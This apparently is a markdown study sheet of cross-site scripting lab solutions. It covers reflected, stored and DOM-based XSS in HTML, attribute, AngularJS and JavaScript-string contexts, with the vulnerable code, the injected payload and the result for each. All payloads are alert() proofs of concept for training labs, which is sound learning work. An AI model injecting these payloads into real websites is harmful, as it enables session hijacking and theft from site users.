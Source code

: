 # Cross-site scripting (contexts)

## XSS between HTML tags

### Reflected XSS into HTML context with nothing encoded
Search for: `<script>alert(1)</script>`

### Stored XSS into HTML context with nothing encoded
Post new comment: `<script>alert(1)</script>`

## XSS in HTML tag attributes

### Reflected XSS into attribute with angle brackets HTML-encoded
Context:
```html
<input maxlength="600" type="text" placeholder="Search the blog..." name="search" value="{HERE}">
```
Exploit:
```
" onfocus=alert(1) autofocus foo="
```
Result:
```html
<input name="search" value="" onfocus=alert(1) autofocus foo="">
```

### Stored XSS into anchor href attribute with double quotes HTML-encoded
Context:
```html
<a id="author" href="{HERE}">My web</a>
```
Exploit:
```
javascript:alert(1)
```

## DOM-based XSS

### DOM XSS in document.write sink using source location.search
Context:
```js
function trackSearch(query) {
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
}
```
Exploit:
```
" onload="alert(1)"
```
Result:
```html
<img src="/resources/images/tracker.gif?searchTerms="" onload="alert(1)">
```

### DOM XSS in document.write sink using source location.search inside a select element
Context:
```js
var stores = ["London","Paris","Milan"];
var store = (new URLSearchParams(window.location.search)).get('storeId');
document.write('<select name="storeId">');
if(store) {
    document.write('<option selected>'+store+'</option>');
}
...
document.write('</select>');
```
Exploit:
```
storeId=</option></select><script>alert(1)</script>
```
Result:
```html
<select name="storeId">
    <option selected></option>
</select>
<script>alert(1)</script>

</option>
</select>
```

### DOM XSS in innerHTML sink using source location.search
Context:
```html
<h1><span>0 search results for '</span><span id="searchMessage"></span><span>'</span></h1>
<script>
    function doSearchQuery(query) {
        document.getElementById('searchMessage').innerHTML = query;
    }
    var query = (new URLSearchParams(window.location.search)).get('search');
    if(query) {
        doSearchQuery(query);
    }
</script>
```
Exploit:
```
<img src=0 onerror="alert(1)">
```
Result:
```html
<span id="searchMessage"><img src=0 onerror="alert(1)"></span>
```

### DOM XSS in jQuery anchor href attribute sink using location.search source
Context:
```js
$(function() {
    $('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
});
```
Exploit:
```
returnPath=javascript:alert(1)
```
### DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded
Context:
```html
<h1 ng-app="" class="ng-scope">0 search results for '{HERE}'</h1>
```
Exploit:
```
{{$on.constructor('alert(1)')()}}
```
Result:
```html
<h1 ng-app="" class="ng-scope">0 search results for '{{$on.constructor('alert(1)')()}}'</h1>
```

## XSS into JavaScript

### Reflected XSS into a JavaScript string with single quote and backslash escaped
Context:
```js
var searchTerms = '{HERE}';
```
Exploit:
```
</script><script>alert(1)</script>
```
Result:
```js
var searchTerms = '</script>
<script>alert(1)</script>
';
```
*The reason this works is that the browser first performs HTML parsing to identify the page elements including blocks
of script, and only later performs JavaScript parsing to understand and execute the embedded scripts.*

### Reflected XSS into a JavaScript string with angle brackets HTML encoded
Context:
```js
var searchTerms = '{HERE}';
```
Exploit:
```
';alert(1);//
```
Result:
```js
var searchTerms = '';alert(1);//';
```

### Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped
Context:
```js
var searchTerms = '{HERE}';
```
Exploit:
```
\';alert(1);// 
```
Result:
```js
var searchTerms = '\\';alert(1);// ';
```
Trick is that the \ is also escaped!

### Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped
Context:
```html
<a id="author" href="http://www.foo.bar" onclick="var tracker={track(){}};tracker.track('{HERE}');">Web</a>
```
Exploit:
```
http://foo.bar&apos;);alert(1);//
```
Result:
```html
<a id="author" href="http://www.foo.bar" onclick="var tracker={track(){}};tracker.track('http://foo.bar');alert(1);//');">Web</a>
```

### Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped
Context:
```js
var message = `0 search results for '{HERE}'`;
```
Exploit:
```
${alert(document.domain)}
```
Result:
```js
var message = `0 search results for '${alert(document.domain)}'`;
```